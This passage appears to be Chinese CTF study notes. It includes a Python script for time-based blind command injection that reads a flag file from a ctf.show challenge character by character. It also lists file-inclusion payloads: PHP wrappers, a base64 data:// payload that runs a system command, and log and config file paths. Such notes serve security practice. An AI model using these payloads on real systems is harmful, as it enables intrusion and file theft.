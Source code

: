 主要解决的两个问题

```
1.代码格式
2.字符串的切割
```

贴个脚本

```
import requests
cmd = 'cat /f149_15_h3r3'
result = ''
for i in range(1, 10):
	for j in range(1, 50):
	    print('i=', i, ' j=', j)
	    for k in range(32, 128):
	        k = chr(k)
	        payload = f"if [ `{cmd} |awk NR=={i}|cut -c {j}` == {k} ]; then sleep 3;fi"
	        #paylod 
	        payload = '?c=' + payload
	        url = 'http://09e725aa-b1ad-4a59-86ca-79f9409cc11c.challenge.ctf.show:8080'
	        try:
	            requests.get(url + payload, timeout=(2.5, 2.5))
	        except:
	            result = result + k
	            print(result)
	            break
result = result + "\n"
```

## (四)、文件包含

### 1. php伪协议

```
php://fileter
data://
data://text/plain;base64,PD9waHAgc3lzdGVtKCJubCBmbGEqIik7Pz4=
```

### 2. 包含日志文件

```
/var/log/nginx/access.log
/etc/httpd/logs/access_log
/var/log/httpd/access_log
```

可以先看看配置文件

```
/etc/httpd/conf/httpd.conf
/etc/init.d/httpd
```
